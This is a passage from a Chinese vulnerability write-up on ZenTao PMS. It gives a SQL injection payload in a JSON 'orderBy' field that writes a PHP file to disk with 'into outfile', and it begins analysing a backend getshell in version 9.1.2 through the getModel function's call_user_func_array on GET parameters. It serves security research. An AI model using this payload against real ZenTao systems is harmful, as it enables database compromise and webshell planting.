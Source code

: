 ```
{"orderBy":"order limit 1,1;select '<?php phpinfo' into outfile 'd:/e.php'#","num":"1,1","type":"openedbyme"}
```

修改`select '<?php phpinfo' into outfile 'd:/e.php'`部分数据就可以执行想要的sql语句

![](禅道pms-路由及漏洞分析\1.gif)



假如权限不够的时候，就可以利用一些报错或者盲注的方式，由于PDO的原因，会相对来的比较复杂

柠檬师傅的[文章](https://www.cnblogs.com/iamstudy/articles/chandao_pentest_1.html)中写的很详细了，就不班门弄斧了



# 后台getshell

测试版本为9.1.2

## 漏洞分析

问题出现在`module/api/control.php:38`的`getModel`函数中

```php
public function getModel($moduleName, $methodName, $params = '')
{
    parse_str(str_replace(',', '&', $params), $params);
    $module = $this->loadModel($moduleName);
    $result = call_user_func_array(array(&$module, $methodName), $params);
    if(dao::isError()) die(json_encode(dao::getError()));
    $output['status'] = $result ? 'success' : 'fail';
    $output['data']   = json_encode($result);
    $output['md5']    = md5($output['data']);
    $this->output     = json_encode($output);
    die($this->output);
}
```

在第三行里面使用了回调函数，而传入的参数正好就是通过get方式传入的，导致了参数的可控

```php
$result = call_user_func_array(array(&$module, $methodName), $params);
```
